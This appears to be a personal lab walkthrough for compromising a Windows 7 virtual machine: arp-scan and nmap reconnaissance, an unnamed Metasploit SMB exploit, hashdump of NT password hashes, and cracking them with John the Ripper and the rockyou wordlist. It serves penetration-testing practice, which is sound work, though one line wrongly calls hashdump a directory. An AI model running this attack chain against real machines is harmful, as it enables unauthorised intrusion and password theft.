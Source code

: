
## Cracking a windows 7 machine

Since both kali and windows machine are connected to the same nat adapter we can conduct an arp scan [[ARP]]

```
sudo arp-scan -l -I eth0

```
Using arp-scan -L is for listner and -I is for interface of eth0

To identify the os from the machines found we use nmap
```
nmap -O "ip"
```

Conduct a full port scan using
```
nmap -Pn -p- "ip"
```


Scan the ports found for services runing
```
nmap -Pn -p 135,139,445,49152,49153,49154,49155,49156 -sV -vv -oN service-enum.txt 192.168.56.129
```

Scan for scirpts vuln
```
nmap -Pn -p135,139,445 --script vuln -oN vuln.txt 192.168.56.129
```

SMB vuln found

Use metaexploit

search the vuln 
```
search "vunl name"
```

now set LHOST and RHOST
 and exploit
 ```
 exploit
```

got into system use hashdump
*a directory in windows 7 where passwords are saved*

set hashvalue

Now use John to crack the hash value using wordlist

```
john --format=NT hash1.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

**and we get password**










